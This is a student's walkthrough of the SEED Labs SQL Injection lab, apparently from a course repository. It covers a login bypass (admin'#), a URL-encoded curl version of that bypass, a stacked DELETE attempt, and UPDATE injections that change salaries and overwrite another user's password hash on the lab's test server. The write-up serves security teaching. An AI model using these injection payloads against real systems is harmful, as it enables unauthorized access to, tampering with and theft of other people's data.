










# Week 8: SEED Labs – SQL Injection Attack Lab

## Task 1: Get Familiar with SQL Statements

> In this task we were asked to get familiar with the SQL commands by playing around with the provided database. 
> First in order to login we used the following command inside the MySQL container:
> ```
> mysql -u root -pdees  
> ```
> Then we used the following command to load the *sqllab_users** database:
>``` 
> use sqllab_users
>```
> We now can start to perform some queries like:
> ``` sql
> show tables
> ```
> 

> At the end of this tasks we were asked to print the profile information of the employee Alice, we achieved this by running the folowing command:
> ``` sql
> select * from credentials where name = 'Alice'; 
> ```
> 

## Task 2: SQL Injection Attack on SELECT Statement

To complete this task we needed to consider the following query that is used in the user authentication procedure: 
```php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

### Task 2.1: SQL Injection Attack from webpage.

> In this subtask we were asked to login as the administrator from the login page, knowing that the administrator username is **admin**. We needed to find what to input in the username and password fields in the login page.
>
> We can explore the following line's vulnerability to manipulate the authentication:
> ```php
> WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
>```
> In the *username* field, we can insert ```admin'#```. This input will firstly close the username string and then comment the rest of the query up until the ```";```. Allowing us to authenticate as the admin without providing a password.  
> The final query becomes this:
> 
> 
> After getting access as the administrator we could check the emmployees informations:
> 

### Task 2.2: SQL Injection Attack from command line

> In this subtask we needed to accomplish the same goal as the previous subtask, but without using the webpage.  
> The tricky part of this subtask is that when sending the HTTP request, we need to encode the special characters we add, or they're gonna modify the meaning of the request.  
> We ended executing the following command and got access as the administrator on the website:
> ```bash
> curl ’www.seed-server.com/unsafe_home.php?username=admin%27%23'
>```
> The **27** and **23** correspond to the ascii code in hexadecimal of the single quote and cardinal sign respectively.
>
> 

### Task 2.3: Append a new SQL statement

> In this task we tried to modify the database using the same vulnerability in the login page. To accomplish this we needed to append a new SQL statement to update/delete something in the database.  
> We inserted the following line in the username field, to try and delete Bobby's credentials:
> ```php
> admin'; DELETE FROM credential WHERE name='Bobby'";#
>```
> As expected the following error was raised:
> 
> This is due to a countermeasure implemented in the ```unsafe_home.php ``` file. Basically the MySQLi extension doesn't allow us to perform multiple queries in the database server, due to the possibility of SQL injection.

## Task 3: SQL Injection Attack on UPDATE Statement

In this task we need to consider the following query that's used to update the user information:
```php
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
```

### Task 3.1: Modify your own salary  

> In this task we were asked to change Alice's salary. First of all we loged in as Alice and went to the edit profile page. In this page the vulnerable query presented above is used, so we needed to take advantage of it.  
>
> To accomplish the task we inserted the following string in the nickname field: 
> ```sql
> Alice',salary='100000'
> ```
> Firstly the string mantains Alice's nickname, then the single quote closes the string and then we can insert the salary we want to modify.  
> In the next picture we can have a more clear image of the final query:
> 
>
> Final result:
> 
> 


### Task 3.2: Modify other people’ salary

> This task we needed to modify our boss's salary to the value of ```1```.  
> Following a similar procedure as the previous subtask we can accomplish the goal. We just needed to insert the following string in the edit nickname field on the edit page on Alice's account:
>```sql
> ',salary='1' where name = 'Bobby';#
>```
> Again, to have a better idea of the final query:
> 
>
> In order to check the results we can run the following query in the database:
> 

### Aditional task -> Task 3.3: Modify other people’ password.

> The goal of this subtask was to change Bobby's password.  
>
> To accomlish this task we changed Bobby's password to Alice's password.   
> Again, in the edit profile section in Alice's account we inserted the following string:
>```php
>',password='7110eda4d09e062aa5e4a390b0a572ac0d2c0220' where name = 'Boby';#
>```
>
> To check the results we run the following query:
>  
> 